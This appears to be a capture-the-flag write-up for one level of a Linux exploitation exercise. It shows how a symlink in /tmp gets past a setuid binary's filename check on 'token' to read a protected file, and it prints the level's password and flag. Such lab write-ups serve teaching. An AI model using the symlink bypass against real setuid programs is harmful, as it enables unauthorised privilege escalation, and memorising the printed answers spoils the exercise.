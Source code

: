 ## Level 08

In this level we have 2 files, an executable level08 and a token that we're not able to read

ls -l

        -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
        -rw-------  1 flag08 flag08    26 Mar  5  2016 token

When we use ltrace, we can see that the program will do an strstr with ouf file and "token"

        ltrace ./level08 token 
        __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
        strstr("token", "token")                                                              = "token"
        printf("You may not access '%s'\n", "token"You may not access 'token'
        )

We can do a shortcut for our file in another path to bypass the strstr and be able to read the flag

ln -s /home/user/level08/token /tmp/pass

./level08 /tmp/pass

        quif5eloekouj29ke0vouxean

su flag08 -> quif5eloekouj29ke0vouxean
getflag

                           Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
